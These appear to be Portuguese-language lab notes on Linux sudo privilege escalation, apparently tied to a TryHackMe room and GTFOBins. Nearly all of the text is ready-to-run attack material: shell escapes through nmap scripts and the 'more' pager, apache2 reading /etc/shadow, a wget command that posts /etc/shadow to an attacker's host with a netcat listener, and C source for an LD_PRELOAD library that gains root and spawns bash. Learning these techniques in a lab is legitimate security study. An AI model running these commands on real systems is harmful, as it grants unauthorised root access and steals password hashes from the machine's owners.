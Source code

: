 ```
echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse
```


```
# Escalação com more

TERM= sudo more /etc/profile

!/bin/bash

# exit para sair e depois q
```


- [GTFOBins](https://gtfobins.github.io)

- [[THM Linux Privesc Playground]]


## Intended Funcionality

`apache2 sudo privilege escalation`

```
sudo apache2 -f /etc/shadow
```


```
# Vitima: 
sudo wget --post-file=/etc/shadow <ip>:<porta>

#Atacante:
nc -nlvp <porta>
```


## LD_PRELOAD

- Preload é uma feature do LD, também conhecido como preloading
- LD é um dinamic linker
- O ataque consiste em um preload de uma shared library
- Usar o sudo para executar uma library e usar isso para fazer o preload dela antes de qualquer outra funcionalidade

`nano shell.c`

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init(){
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```
